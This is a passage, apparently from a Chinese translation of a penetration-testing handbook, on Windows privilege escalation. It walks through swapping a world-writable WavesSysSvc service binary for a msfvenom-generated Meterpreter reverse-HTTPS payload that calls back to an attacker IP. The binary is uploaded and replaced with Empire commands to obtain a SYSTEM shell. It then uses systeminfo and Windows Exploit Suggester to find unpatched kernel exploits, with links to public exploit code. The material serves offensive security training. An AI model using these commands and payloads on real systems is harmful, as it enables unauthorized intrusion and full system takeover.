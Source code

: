 最突出的是:

- ServiceName： WavesSysSvc
- Path： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFile： C:\Program Files\Waves\MaxxAudio\WavesSysSvc64.exe
- ModifiableFilePermissions： {WriteOwner, Delete, WriteAttributes, Synchronize…}
- **ModifiableFileIdentityReference： Everyone**
- StartName： LocalSystem

看起来任何人都可以编写 WavesSysSyc 服务。这意味着我们可以将 WaveSysSvc64.exe 文件替换为我们自己的恶意二进制文件:

- 创建一个 Meterpreter 二进制文件（后续的文章将讨论如何绕过杀毒软件）
  - msfvenom -p windows/meterpreter/reverse_https LHOST=[ip] LPORT=8080 -f exe > shell.exe
- 使用 Empire 上传二进制文件并替换原始二进制文件
  - upload ./shell.exe C:\users\test\shell.exe
  - shell copy C:\users\test\Desktop\shell.exe “C:\ProgramFiles\Waves\MaxxAudio\WavesSysSvc64.exe”
  - 重新启动服务或等待其重启

一旦服务重新启动，你你应该会收到一个升级为 `system` 权限的 Meterpreter shell 。使用 `PowerUp` powershell 脚本，你将发现许多不同的服务都会有权限提升的可能性。如果你想深入了解 Windows 权限提升的底层问题，请查看 FuzzSecurity 的文章：http://www.fuzzysecurity.com/tutorials/16.html 。

对于未打补丁的 Windows 系统，我们确实有一些权限升级攻击，比如：（ https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1 ）和 ( https://github.com/FuzzySecurity/PSKernel-Primitives/tree/master/Sample-Exploits/MS16-135 ），但是我们如何快速识别目标系统上安装了哪些补丁呢，我们可以在受害者系统上使用系统默认自带的命令来查看安装了哪些系统补丁包。Windows 自带默认命令`systeminfo` 将提取任何给定的 Windows 主机的所有补丁安装历史记录。我们可以拿回这个输出结果，将其复制到我们的 Kali 系统并运行 Windows Exploit Suggester 以查找已知的漏洞然后针对性的进行漏洞利用从而提升权限。


回到你攻击的 Windows 10系统：
- systeminfo
- systeminfo > windows.txt
- 将 windows.txt 复制到你的 Kali 虚拟机的  /opt/Windows-Exploit-Suggester 下
- python ./windows-exploit-suggester.py -i ./windows.txt -d 2018-03-21-mssb.xls

![](img/4-14.png)

这个工具已经有一段时间没有被维护了，但是你还是可以轻松地从中寻找到你正需要的能权限提升的漏洞。

如果我们处在一个已经打好所有补丁的 Windows 主机环境中，我们将重点关注第三方软件中的不同权限提升漏洞或操作系统的任何 0day 漏洞。例如，我们一直在寻找下面这样的漏洞 http://bit.ly/2HnX5id ，这是 Windows 中的权限升级漏洞，现在还没有修补。通常在这些场景中，可能会有一些基本的 POC 代码，但是我们需要测试、验证并多次复现这个漏洞。我们经常监控某些领域存在公共特权升级的漏洞：
- http://insecure.org/search.html?q=privilege%20escalation
- https://bugs.chromium.org/p/project-zero/issues/list?can=1&q=escalation&colspec=ID+Type+Status+Priority+Milestone+Owner+Summary&cells=ids
